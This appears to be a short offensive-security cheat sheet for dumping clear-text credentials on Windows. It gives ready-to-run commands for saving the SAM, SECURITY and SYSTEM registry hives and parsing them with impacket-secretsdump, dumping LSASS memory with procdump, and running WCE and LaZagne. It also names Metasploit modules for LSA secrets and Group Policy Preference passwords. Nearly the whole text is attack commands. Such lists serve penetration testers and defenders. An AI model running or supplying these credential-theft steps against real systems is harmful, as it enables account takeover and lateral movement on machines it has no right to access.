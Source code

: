 # Clear Text Credentials Dump on windows 

## Impacket

https://github.com/CoreSecurity/impacket

- get LSA secret keys from reg

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

- dump with impacket

```
impacket-secretsdump -sam /root/sam.save -security /root/security.save -system /root/Desktop/system.save Local
```

## Metasploit module

- post/windows/gather/lsa_secrets

## LSAsecrte binary

https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe

``` lsaSecretRead.exe DefaultPassword ```

## LSASS process with processdump

```
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

## WCE

- https://www.ampliasecurity.com/research/windows-credentials-editor/

```
wce.exe -w
```

## Credential manager

- https://github.com/AlessandroZ/LaZagne
```
lazagne all 
```

## Nishan framework

- https://github.com/samratashok/nishang

## Group Policy Preference 

- metasploit module

``` post/windows/gather/credentials/gpp ```
